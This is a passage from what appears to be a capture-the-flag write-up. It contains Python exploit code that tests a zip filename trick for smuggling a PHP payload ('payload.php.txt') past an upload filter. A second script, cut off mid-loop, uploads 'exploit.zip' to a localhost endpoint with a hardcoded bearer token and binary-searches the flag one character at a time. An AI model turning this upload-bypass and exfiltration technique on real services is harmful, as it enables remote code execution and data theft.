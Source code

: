 ```
            namelist = zf.namelist()
            print(f"[+] Thư viện zipfile của Python thấy: {namelist}")
            if namelist == ['payload.php.txt']:
                print("[+] THÀNH CÔNG! Python đã bị lừa.")
            else:
                print("[-] THẤT BẠI! Python không thấy tên file giả.")
    except Exception as e:
        print(f"[-] Lỗi khi đọc file zip: {e}")

```

after you execute this script it will generate a php file that php file will try each character of flag at first index till the end of flag equivalent to last index

after that you execute this script python:


```
import requests
import sys
import string
import time
import base64
import json

TOKEN = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0b2tlbl90eXBlIjoiYWNjZXNzIiwiZXhwIjoxNzYxMjI2ODI4LCJpYXQiOjE3NjEyMjY1MjgsImp0aSI6IjM3NzJkMTJiNzdmNzRiZjZhMzExOWMxN2EwMjI4YzY3IiwidXNlcl9pZCI6IjQxYWRmYTc0LTJlYzktNDI2MS04NWQ2LTE0ZWQ5MjNlNWNmOSJ9.4_8QQGbDaeofsVnpBeV3WOf7_xV1DZVVpxHnryzsLYA"
USER_ID = "41adfa74-2ec9-4261-85d6-14ed923e5cf9"

BASE_URL = "http://localhost:8000"
ZIP_FILE = "exploit.zip"
FLAG = ""
POS_TO_GUESS = 0

s = requests.Session()
s.headers.update({'Authorization': f'Bearer {TOKEN}'})

print("="*40)
print(f"Binary search: {USER_ID}")
print("="*40)

try:
    with open(ZIP_FILE, 'rb') as f_zip:
        zip_content = f_zip.read()
except FileNotFoundError:
    print(f"khong tim thay file'{ZIP_FILE}'.")
    sys.exit()

while True:
    print(f"\n[+] toi vi tri thu: {POS_TO_GUESS}")
    
    low = 32
    high = 126
    found_char = ""

    while low <= high:
        mid = (low + high) // 2
        char_to_compare = chr(mid)
        
        print(f"\r  dang thu: '{char_to_compare}'")
        
        try:
            files = {'file': (ZIP_FILE, zip_content, 'application/zip')}
            r_upload = s.post(f"{BASE_URL}/gateway/transport/", files=files, timeout=10)
```